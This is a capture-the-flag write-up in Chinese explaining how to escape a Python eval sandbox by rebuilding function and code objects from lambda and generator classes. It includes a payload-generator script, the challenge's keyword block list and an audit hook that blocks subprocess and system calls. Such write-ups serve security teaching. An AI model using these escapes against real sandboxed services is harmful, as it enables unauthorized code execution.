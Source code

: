 # 3DUSH3LL

- Category: Misc
- Solves: 0 / 95 (scores >= 1), 55 (scores > 1)

## Solution

### TL;DR
1. Get `<class 'function'>` from `(lambda:None).__class__`.
2. Get `<class 'code'>` from `(_ for _ in ()).gi_code.__class__`.
3. Use `class_function(class_code(args...), {})` to create arbitrary function.
4. Pwned!

### Detailed Solution

> 這篇 writeup 有點詳細到 tutorial 程度了 XD

顯然的，這是一個 Python sandbox，直接讓我們來看看 source code 吧，核心內容就是這一小段而已：
```python
for bad in ['mro', 'base', '__code__', '__subclasses__', '__dict__', 'import', 'builtins', 'module', 'attr', 'globals']:
            if bad in command:
                print(f"{bad}: Permission denied")
                break
        else:
            try:
                print(eval(command, {"__builtins__": {}}))
            except Exception:
                print(f'/bin/sh: {command}: not found')
```

總而言之，它用黑名單的方式禁止你輸入的內容出現以下的字串：

- `mro`
- `base`
- `__code__`
- `__subclasses__`
- `__dict__`
- `import`
- `builtins`
- `module`
- `attr`
- `globals`

通過上述黑名單之後，就會直接去 eval 你的輸入了，不過值得注意的是 [eval 的第二個參數](https://docs.python.org/3/library/functions.html#eval)被傳入了 `{"__builtins__": {}}`，這樣的行為導致 `__builtins__` 的內容被清空，而 `__builtins__` 中儲存的就是 Python 中常見的內建 function，如此一來像是 `exec`, `eval`, `open` 等等的 function 都不能直接使用了。

這樣的 python sandbox 環境可能會讓熟悉 web security 的人聯想到 Jinja2 SSTI，不過可惜的是經典 payload（e.g. `[].__class__.__base__.__subclasses__....`） 中必要的許多字詞都被擋掉了，也沒辦法使用 `__getattribute__` 的方法撈出各種屬性，我們只好另覓蹊徑。

這邊我使用的方法是直接透過 code object 以及 function object 來建構任意 function —— 嗯等等，或許有點跳太快了，回來聊聊我們在 Python 中定義一個 function 時到底發生了什麼吧。

事情是這樣的，我們知道 Python 中任何東西都是一個 object，就連 function 也不例外。那麼我們可以回頭想想，Python 呼叫一個 function 的時候到底是怎麼知道要執行什麼呢？總要有一個地方儲存嘛。像是參數、程式內容等等的東西，到底被擺在哪呢？直接讓我們來觀察一個 function 物件看看：

```python
>>> def meow(): pass
>>> dir(meow)
['__annotations__', '__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__get__', '__getattribute__', '__globals__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__kwdefaults__', '__le__', '__lt__', '__module__', '__name__', '__ne__', '__new__', '__qualname__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__']
>>> set(dir(meow)) - set(dir([]))
{'__globals__', '__call__', '__annotations__', '__code__', '__qualname__', '__closure__', '__dict__', '__get__', '__module__', '__defaults__', '__kwdefaults__', '__name__'}
```
看起來 function 比起其他的 object 多出很多 magic attribute，而其中有個值得注意的東西：`__code__`。

`__code__` 中儲存的就是 function 程式內容的一些基本資料，像是 byte code, constant, variable 等等，這邊簡單介紹一下它底下各個 attribute 的意義：

|解釋|`[*]`|
|-|-|
| 幾個參數 (int) | `co_argcount`|
| function 的 scope 內有幾個值 (int)  |`co_nlocals`|
| stack 開多大 (int) | `co_stacksize`|
| compile 的方式 (int) | `co_flags`|
| 你的 bytecode (bytes) | `co_code`|
| function 的 const 值 (tuple) | `co_consts` |
| function 有用到但不在 scope 裡的變數名稱 (tuple) |`co_names`|
| function 中 define 的變數名稱 (tuple)| `co_varnames`|
| 檔名 / `'<stdin>'`  |`co_filename`|
| function 名稱 (str) |`co_name`|
|第幾行開始的 (int) |`co_firstlineno`|
| 行號表 (bytes) |`co_lnotab`|

不過其實可以先不用管那麼多啦。其實，如果你要複製一個現成的 function 的話，只要照著把它 `__code__` 底下的各個 attribute 填入 code 建構子就好了，暫時不用管它的含義 XD，至於 argument 順序怎麼擺呢？我們可以直接透過 `help((lambda:None).__code__)` 看一下：
```
Help on code object:

class code(object)
 |  code(argcount, posonlyargcount, kwonlyargcount, nlocals, stacksize,
 |        flags, codestring, constants, names, varnames, filename, name,
 |        firstlineno, lnotab[, freevars[, cellvars]])
 |
 |  Create a code object.  Not for the faint of heart.
 |
 |  Methods defined here:
 | ...
```

Well, **not for the faint of heart**, ok fine, we don't care :).

至此，我們已經能順利建構一個 function 中的 code object（`__code__` 的部分）。

而建構完整的 function 就相對簡單很多了：
```
Help on class function in module builtins:

class function(object)
 |  function(code, globals, name=None, argdefs=None, closure=None)
 |
 |  Create a function object.
 |
 |  code
 |    a code object
 |  globals
 |    the globals dictionary
```

只要傳入兩個參數：code object 以及 globals 就行了。

總結一下，要從底層開始創造一個 function 要填這些東西：
```
function(
    code(argcount, posonlyargcount, kwonlyargcount, nlocals, stacksize,
        flags, codestring, constants, names, varnames, filename, name,
        firstlineno, lnotab),
    globals
)
```

因此，我們只要拿到
1. `class function(object)` 
2. `class code(object)`
3. code object 必要的 argument

就可以創造/複製出任意 function 了。

`class function(object)` 的部分比較簡單，可以透過 `(lambda:None).__class__` 的方式拿到。

`class code(object)` 由於 `__code__` 被擋，因此不能最直覺的在一個 function 底下拿到，那還有什麼地方會有 code object 呢？其實像是 `coroutine object` 或 `generator object` 等等的底下分別有 `cr_code` 跟 `gi_code` 可以利用，而在此場景下 generator 較為實用，可以用 `(_ for _ in ()).gi_code.__class__` 獲得。

剩下填入 code object argument 的部分就比較冗了，就只是照著填而已。

這邊直接寫個腳本完成上述的操作

```python
def generator(func):
    co = func.__code__
    return f'''
[
    func_class:=(lambda:None).__class__,
    code_class:=(_ for _ in ()).gi_code.__class__,
    func_class(
        code_class({co.co_argcount}, 0, {co.co_kwonlyargcount}, {co.co_nlocals},
                    {co.co_stacksize}, {co.co_flags}, {co.co_code}, {co.co_consts}, {co.co_names},
                    {co.co_varnames}, "filename.py", "meow_func", {co.co_firstlineno}, b""
        )
        , {{}}
    )
][-1]()'''.replace("    ", "").replace("\n", "")
```

至此，我們已經完成所有必要的前置作業，剩下就是 python sandbox 的老梗了：
1. 列出 `<class 'object'>` 的 subclasses
2. 找到好用的 gadget
3. 執行任意指令

這部分就去看 solution.py 吧



最後，或許有人會想到，你前面那個 `addaudithook` 沒提到欸，這到底是什麼：
```python
def hook(event, args):
    if not all([e not in ['subprocess', 'system', 'spawn'] for e in event.split(".")]):
        print("Bad system call (core dumped)")
        sys.exit()


sys.addaudithook(hook)
```

可以參考一下[官方文件](https://docs.python.org/3/library/audit_events.html)，是 Python 3.8 的新東西，不過在這題其實只是寫好玩的而已，主要功能只有防止你執行 `os.system` 之類的東西，但其實不太影響解題。
